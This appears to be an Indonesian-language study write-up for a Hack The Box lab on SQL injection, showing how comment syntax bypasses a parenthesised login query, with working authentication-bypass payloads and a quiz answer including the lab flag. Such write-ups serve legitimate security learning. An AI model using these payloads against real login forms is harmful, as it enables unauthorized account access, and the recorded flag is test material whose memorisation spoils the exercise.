


Sebelumnya kita telah berhasil menembus form login menggunakan logika OR sehingga selalu menghasilkan nilai true walaupun kita tidak mengetahui password dari user. kita memanfaatkan logika AND yang dijalankan terlebih dahulu dibandingkan dengan OR statement. Namun bagaimana jika query dari form login yang digunakan seperti ini,

```sql
SELECT * FROM logins WHERE (username='username' AND id > 1) AND password = 'password';
```

Katakan kita menggunakan payload yang sama dengan sebelumnya, yaitu `admin' OR 1 = '1`, sehingga full quernya,

```sql
SELECT * FROM logins WHERE (username='admin' OR 1 = '1' AND id > 1) AND password = 'password';
```

Opss, logika yang ada didalam paranthesis akan dijalanakn lebih dahulu, lalu di sandingkan lagi dengan logika `AND` setelahnya. Sehingga tetap saja kita harus mengetahui password dari user. 

Oke, kita bisa menggunakan komen yang disediakan oleh SQL, termasuk MySql, Postgre Sql, dan atau MSSQL.

## Comments
Kita dapat menggunakan dua tipe baris komen dengan MySQL `--` dan `#`, dan tambahan in-line comment `/**/` (komen ini tidak biasa digunakan oleh SQL injections).

Khusus untuk koment `--` pastikan setalh dash ke dua haris diberi spasi tambahan menjadi `-- ` dan terkadang baiknya kita tambahkan dash setelah spasi agar kita pastikan sudah ada spash setelah dua dash, `-- -`. Dan terkadang ketika di URL encoded menjadi `--+`.

Jika kita menggunakan `#` dapalam payload di URL, karakter sharp tersebut dianggap tag pada URL, sehingga jika menggunakan payload para URL untuk injeksi url gunakan `%23` yang mana akan di encode menjadi `#`.

##  Bypass using comment
Oke, mari kita manfaatkan komen pada payload pada query yang kita lakukan diatas, `admin' OR 1 = '1');-- -`, sehingga full querynya menjadi

```sql
SELECT * FROM logins WHERE (username='admin' OR 1 = '1');-- -' AND id > 1) AND password = 'password';
```

!!! quote "POC"
    === "Sent payload"
        

    === "Respone payload"
        


## Quiz
!!! quote "question"
     Login as the user with the id 5 to get the flag. 

    > Janga lupa untuk menggunakan `Openvpn` dan spawn target di HTB

    ??? question "Jawaban"
        
        Ingat kita telah mengetahui sql query (namun pada real life kita tidak mengetahui query login atau query yang mau kita injek seperti apa) login form tersebut;

        ```sql
        SELECT * FROM logins WHERE (username='username' AND id > 1) AND password = 'password';
        ```

        Kita bisa menggunaka payload `1' OR id = '5' AND 1 = '1');-- -` yang membuat query menjadi

        ```sql
        SELECT * FROM logins WHERE (username='1' OR id = '5' AND 1 = '1');-- -' AND id > 1) AND password = 'password';
        ```

        Oke akhirnya kita mendapatkan flag 

        ```
        cdad9ecdf6f14b45ff5c4de32909caec
        ```